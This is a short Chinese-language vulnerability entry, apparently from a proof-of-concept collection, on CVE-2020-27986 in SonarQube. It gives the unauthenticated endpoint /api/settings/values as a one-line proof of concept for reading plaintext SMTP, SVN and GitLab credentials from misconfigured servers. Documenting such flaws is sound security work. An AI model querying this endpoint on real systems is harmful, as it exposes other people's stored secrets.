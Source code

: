 ### CVE-2020-27986
SonarQube配置不当造成未授权访问，可以通过api/settings/values获取明文SMTP、SVN和Gitlab等敏感信息


### PoC
```
/api/settings/values
```

### Ref
- https://github.com/EdgeSecurityTeam/Vulnerability/blob/main/CVE-2020-27986%20SonarQube%20api%20%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE.md
